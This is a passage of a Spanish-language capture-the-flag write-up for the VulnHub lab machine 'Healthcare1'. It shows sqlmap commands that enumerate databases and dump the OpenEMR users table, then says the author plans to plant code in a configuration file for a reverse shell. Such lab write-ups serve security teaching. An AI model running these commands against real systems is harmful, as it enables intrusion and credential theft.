 Capturamos la solicitud mediante `Burp Suite` y ejecutamos `sqlmap` obteniendo resultados.

![req](/assets/img/commons/vulnhub/healthcare1/req.png){: .center-image }

```bash
❯ sqlmap -r req --batch --dbs
❯ sqlmap -r req --batch -D openemr --tables
❯ sqlmap -r req --batch -D openemr -T users --dump
```

![sqlmapusers](/assets/img/commons/vulnhub/healthcare1/sqlmapusers.png){: .center-image }

Ingresamos al panel de login correctamente.

![openemrdash](/assets/img/commons/vulnhub/healthcare1/openemrdash.png){: .center-image }


Dentro del dashboard, vamos a añadir código a un archivo de configuración para tener ejecución de comandos y poder ganar acceso al servidor mediante una reverse shell.
